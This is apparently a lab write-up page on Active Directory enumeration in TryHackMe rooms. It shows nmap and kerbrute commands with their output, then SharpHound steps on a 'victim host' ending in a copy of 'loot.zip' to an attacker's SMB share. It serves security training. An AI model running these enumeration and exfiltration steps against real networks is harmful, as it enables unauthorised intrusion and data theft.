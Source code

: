 ```yaml
---
title: AD Enumeration
description: Introduction to Active directory enumeration.
---
```


# Active Directory - Enumeration

## Information gathering

Information gathering on services like `RDP` can tell you relatively good information about an Active Diretory host or domain.

- Target : `THM-AD`
- Domain : `spookysec.local`
- DNS Enty : `AttacktiveDirectory.spookysec.local`

```bash
$ nmap -p 53,80,88,135,139,445,464,593,636,3268,3269,3389 -sV -sC -oN scan.vuln.nmap 10.10.169.152
[...]
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2022-02-13T17:33:50
|_Not valid after:  2022-08-15T17:33:50
| rdp-ntlm-info:
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2022-02-14T18:27:20+00:00
|_ssl-date: 2022-02-14T18:27:30+00:00; -1s from scanner time.
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
[...]
```

## User enumeration

```bash
$ kerbrute userenum --dc 10.10.169.152 -d spookysec.local userlist.txt
[...]
2022/02/14 19:37:15 >  Using KDC(s):
2022/02/14 19:37:15 >   10.10.169.152:88

2022/02/14 19:37:16 >  [+] VALID USERNAME:       james@spookysec.local
2022/02/14 19:37:17 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2022/02/14 19:37:19 >  [+] VALID USERNAME:       James@spookysec.local
2022/02/14 19:37:20 >  [+] VALID USERNAME:       robin@spookysec.local
2022/02/14 19:37:28 >  [+] VALID USERNAME:       darkstar@spookysec.local
2022/02/14 19:37:33 >  [+] VALID USERNAME:       administrator@spookysec.local
[...]
```

## BloodHound

**BloodHound** allows you to make a graph of an Active Directory domain and quickly find misconfiguration vulnerabilities in it.

- Graphic viewer : [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- Collector : [SharpHound](https://github.com/BloodHoundAD/SharpHound)
- Graph database : [neo4j](https://neo4j.com/download/)

### Get started

1. Download SharpHound on the victim host.
2. Using powershell version :
	1. Load SharpHound : `.\SharpHound.ps1`
	2. Start SharpHound collection : `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`
3. Using exectuable version :
	1. Start SharpHound collection : `.\SharpHound.exe -d CONTROLLER.local --zipfilename loot.zip`
4. Download the archive result on your attacker machine : `copy .\20220219102531_loot.zip \\10.9.52.138\tmpshare\loot.zip`
5. Run neo4j server : `sudo docker run --rm -p 7474:7474 -p 7687:7687 -e NEO4J_AUTH=neo4j/toto -v /tmp/neo4j/data:/data neo4j`
6. Run BloodHound : Download release and execute `./BloodHound-linux-x64/BloodHound` 
	- Host : `bolt://localhost:7687`
	- Username : `neo4j`
	- Password : `toto`
7. Drag and drop `loot.zip` into `Bloodhound`.

You can run pre-defined queries by clicking on `<menu burger icon>`, then `Analysis` and finally on the queries you want to execute.

## References

- [THM - Post-Exploitation Basics](https://tryhackme.com/room/postexploit)